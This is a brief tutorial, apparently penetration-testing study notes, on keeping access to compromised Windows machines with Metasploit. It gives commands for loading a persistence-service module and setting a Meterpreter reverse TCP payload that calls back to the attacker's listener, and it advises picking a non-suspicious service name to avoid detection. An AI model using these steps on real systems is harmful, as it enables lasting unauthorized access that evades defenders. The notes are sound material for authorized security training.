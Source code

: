 
+ Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.

+ Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.

+ We can utilize various post exploitation persistence modules to ensure that we always have access to the target system.

### How to establish persistence ?

1. After we gain initial access to the target by exploiting a vulnerable service we need to establish a persistent connection as the service we exploited might get patched. 

2. We can search for persistence modules.
```
search platform:windows persistence
```

3. Using a persistent service module. This will install a service in the target which will establish a persistent connection.
```
use exploit/windows/local/persistence_service
```
- Set `SERVICE_NAME` to something non suspicious.
- Set `payload`. `set payload windows/meterpreter/reverse_tcp`

4. Now if we loose access or close our meterpreter session, we re-gain access using our `multi/handler`.  Set our payload and LHOST to the one we specified before, and we should get a connection immediately. 

